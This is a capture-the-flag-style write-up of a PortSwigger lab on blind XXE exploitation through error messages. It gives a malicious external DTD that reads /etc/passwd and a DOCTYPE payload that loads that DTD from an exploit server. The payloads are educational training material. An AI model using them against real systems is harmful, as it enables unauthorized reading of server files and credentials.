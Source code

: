 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b76738eb-313f-45c0-a38a-9d4c51878a6a)


## Overview :

 An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response.

You can trigger an XML parsing error message containing the contents of the /etc/passwd file using a malicious external DTD as follows:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Invoking the malicious external DTD in a request will result in an error message in the response like the following:

```bash
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

## Solution :

Clicking on checkstock , browser sends a request as follows.

```xml
POST /product/stock HTTP/2
Host: 0af30033047260258367614100b000eb.web-security-academy.net
Cookie: session=TnnpQlYQo6aNbZz19PpZgs3EumVLAIfl
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0af30033047260258367614100b000eb.web-security-academy.net/product?productId=3
Content-Type: application/xml
Content-Length: 107
Origin: https://0af30033047260258367614100b000eb.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>3</productId>
  <storeId>1</storeId>
</stockCheck>
```

In order to trigger an error message & retreive the contents of `/etc/passwd` file in the application response, we need to perform few steps.

#### Steps -

1. Make a request which has a DOCTYPE containing a payload which will fetch the contents of the malicious DTD hosted at our exploit server. 
2. The exploit server will retreive the contents of `/etc/passwd` and it will try to send the exfiltrated data back to the **non-existent server**

> Since the server address is non existent, it will throw an error. So we get both error and the contents of /etc/passwd file in the response.


#### Craft a payload -

In the request to check the stock, we can insert the following external entity definition in between the XML declaration and the stockCheck element:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [<!ENTITY % xxe SYSTEM "http://exploit-0ac1007c04b760e583b56076015d00b1.exploit-server.net/exploit"> %xxe;]>
<stockCheck>
  <productId>3</productId>
  <storeId>1</storeId>
</stockCheck>
```

#### Create a malicious DTD -

On the exploit server create a malicious DTD file with the following contents,

```XML
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'file:///non-existent/%file;'>">
%ent;
%exfiltrate;
```
> NOTE - We intentionally give the name/location of the file as **non-existent** to induce an error.


When we send the request , we get the error message along with the contents of /etc/passwd.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/9d72e719-b4b0-430c-9df7-daf4d3958171)

Thus we've solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/523460f4-1ad3-42aa-ab1c-0d90babbb31f)


